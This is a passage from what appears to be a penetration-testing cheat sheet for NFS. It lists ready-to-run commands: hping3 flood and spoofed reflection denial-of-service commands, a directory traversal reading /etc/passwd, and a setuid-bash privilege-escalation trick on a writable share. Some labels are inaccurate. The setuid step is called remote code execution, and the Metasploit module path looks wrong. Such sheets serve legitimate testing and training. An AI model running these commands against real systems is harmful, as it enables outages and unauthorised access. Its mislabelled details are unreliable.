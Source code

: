 ### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p 2049 --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p 2049 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

# Exploits 

### NFSv3 No Root Squash Exploit
- **Tool:** [[Metasploit]]
	```bash
	exploit/linux/nfs/nfsmount
	```
- **Description:** Exploit NFSv3 configurations that allow root access to the file system.

### NFS Directory Traversal
- **Tool:** Custom Scripts
    ```bash
    cd /mnt/share/../../etc
    cat passwd
    ```
- **Description:** Exploit directory traversal vulnerabilities in NFS to access restricted files.

### Remote Code Execution via NFS
- **Tool:** Manual Configuration
	```bash
	cp /bin/bash /mnt/nfs/bash
	chmod +s /mnt/nfs/bash
	```
- **Description:** Misconfigured `exports` and improper permissions can lead to remote code execution by placing executables in writable directories.

# Resources

|**Website**|**URL**|
|-|-|
|RFC 1094 (NFSv2)|https://tools.ietf.org/html/rfc1094|
|RFC 1813 (NFSv3)|https://tools.ietf.org/html/rfc1813|
|RFC 7530 (NFSv4)|https://tools.ietf.org/html/rfc7530|
|NFS Server Configuration Guide|https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/storage_administration_guide/ch-nfs|
|Nmap NFS Scripts|https://nmap.org/nsedoc/categories/nfs.html|
|showmount Documentation|https://linux.die.net/man/8/showmount|
|rpcinfo Documentation|https://linux.die.net/man/8/rpcinfo|